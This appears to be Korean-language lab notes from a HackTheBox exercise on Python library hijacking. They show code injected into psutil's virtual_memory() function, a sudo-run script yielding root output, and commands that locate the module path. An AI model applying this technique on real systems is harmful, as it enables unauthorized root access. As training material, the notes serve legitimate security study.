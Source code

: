 **virtual_memory() 수정**

```powershell
...SNIP...

def virtual_memory():

	...SNIP...
	#### Hijacking
	import os
	os.system('id')
	

    global _TOTAL_PHYMEM
    ret = _psplatform.virtual_memory()
    # cached for later use in Process.memory_percent()
    _TOTAL_PHYMEM = ret.total
    return ret

...SNIP...
```

**권한 상승**

```powershell
htb-student@lpenix:~$ sudo /usr/bin/python3 ./mem_status.py

uid=0(root) gid=0(root) groups=0(root)
uid=0(root) gid=0(root) groups=0(root)
Available memory: 79.22%
```

## 라이브러리 경로

module의 우선 순위는 위에서 아래가 된다.

```powershell
htb-student@lpenix:~$ python3 -c 'import sys; print("\\n".join(sys.path))'

/usr/lib/python38.zip
/usr/lib/python3.8
/usr/lib/python3.8/lib-dynload
/usr/local/lib/python3.8/dist-packages
/usr/lib/python3/dist-packages
```

psutil 모듈의 경로는 4번째임을 확인

```powershell
htb-student@lpenix:~$ pip3 show psutil

...SNIP...
Location: /usr/local/lib/python3.8/dist-packages

...SNIP...
```
